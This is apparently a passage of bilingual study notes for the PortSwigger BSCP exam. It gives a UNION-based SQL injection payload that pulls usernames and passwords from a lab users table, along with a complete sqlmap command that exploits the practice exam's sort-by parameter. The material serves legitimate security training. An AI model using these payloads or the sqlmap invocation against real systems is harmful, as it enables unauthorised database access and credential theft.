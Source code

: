 > Oracle payload to retrieve the usernames and passwords from Users_XXX table.

```js
//Payload
'+UNION+SELECT+USERNAME_XXX,+PASSWORD_XXX+FROM+USERS_XXX--


//Solo fue una vez que lo resolví y quedo así:
?category=Pets'+UNION+SELECT+USERNAME_YBTTBZ,+PASSWORD_FWZOIF+FROM+USERS_DEOYJF--
//Pero las tablas se atualizan siempre los nombres. lo mismo las columnas. 
```

### SQLMAP Exam BSCP Practice `filtered_search?SearchTerm=`

De este comando, cosas como authority, cookie y las demas son y se deben actualizar ya que son valores propios del lab o examen. OBVIO

> In the [PortSwigger Practice Exam APP](https://portswigger.net/web-security/certification/takepracticeexam/index.html) we _**identify**_ SQLi on the advance search function by adding a single quote and the response result in `HTTP/2 500 Internal Server Error`.

> After doing some testing with SQLMAP versions `1.7.2#stable` and `1.6`, I found that both are able to exploit the PortSwigger Practice exam. Walkthrough from [bmdyy doing the Practice Exam using SQLMAP](https://youtu.be/yC0F05oggTE?t=563) for reference of the parameters used.

[PortSwigger Forum thread - SQLMAP](https://forum.portswigger.net/thread/stage-2-of-practice-exam-with-sqlmap-1-7-2-2078f927)

> I took the practice exam and was able to exploit SQLi using below payload.

```js
sqlmap -u 'https://TARGET.net/filtered_search?SearchTerm=x&sort-by=DATE&writer=' \ 
  -H 'authority: 0afd007004402dacc1e7220100750051.web-security-academy.net' \
  -H 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'accept-language: en-US,en;q=0.9' \
  -H 'cookie: _lab=YesYesYesYes; session=YesYesYesYes' \
  -H 'referer: https://TARGET.net/filtered_search?SearchTerm=x&sort-by=DATE&writer=' \
  -H 'sec-ch-ua: "Chromium";v="111", "Not(A:Brand";v="8"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Linux"' \
  -H 'sec-fetch-dest: document' \
  -H 'sec-fetch-mode: navigate' \
  -H 'sec-fetch-site: same-origin' \
  -H 'sec-fetch-user: ?1' \
  -H 'upgrade-insecure-requests: 1' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36' \
  -p 'sort-by' -batch --flush-session --dbms postgresql --technique E --level 5
```